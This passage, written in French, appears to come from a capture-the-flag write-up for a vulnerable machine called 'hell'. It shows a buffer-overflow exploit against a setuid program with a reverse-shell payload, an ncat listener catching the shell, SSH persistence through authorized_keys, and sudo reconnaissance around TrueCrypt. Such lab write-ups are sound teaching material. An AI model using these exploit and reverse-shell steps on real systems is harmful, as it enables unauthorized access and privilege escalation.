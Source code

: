 Le shellcode utilisé ici est [un reverse shell TCP](http://shell-storm.org/shellcode/files/shellcode-833.php). J'ai d'abord voulu lire un programme en Python pour communiquer avec le programme via *subprocess* mais les histoires de buffuring de la console rendent tout ça trop compliqué.  

La solution que j'ai choisi est donc de passer systèmatiquement le chiffre 10 puis l'adresse de retour avec au début un padding à agrandir au fur et à mesure des échecs (*enlarge your padding !*). Si le chiffre à deviner n'est pas dix il faut juste *Ctrl+C* puis recommencer.  

Finalement j'obtiens mon accès avec un padding de 2 octets.  

Côté victime :  

```plain
milk_4_life@hell:~$ python -c "print '10';print 'AA'+'\x77\xff\xfe\xbf'*1000" | /usr/bin/lesson101
Hello milk_4_life - this is a beginning exercise for the course, 'Learning Bad C - 101'

I got it once in !! 3 !! whole guesses, can you do better?

Guess my number!!

Number (1-20): You got it in 1 tries, congratulations!
Holy crap I can't believe you did it in less than me!
I'm going to have to get your name for my wall of fame being put into the next version
Name:
```

Côté attaquant :  

```plain
$ ncat -l -p 55555 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::55555
Ncat: Listening on 0.0.0.0:55555
Ncat: Connection from 192.168.1.29.
Ncat: Connection from 192.168.1.29:56901.
id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
```

Un accès SSH récupéré plus tard (*authorized\_keys*) on découvre dans *.bash\_history* des références multiples à *Truecrypt*.  

```plain
george@hell:~$ sudo -l
Matching Defaults entries for george on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User george may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/truecrypt
```

Notez qu'un conteneur *Truecrypt* existe déjà sur le système mais les mots de passe connus ne semblent pas fonctionner :  

```plain
george@hell:~$ ls -lh container.tc
-rw------- 1 george george 4.0M Jun 19 21:09 container.tc
```
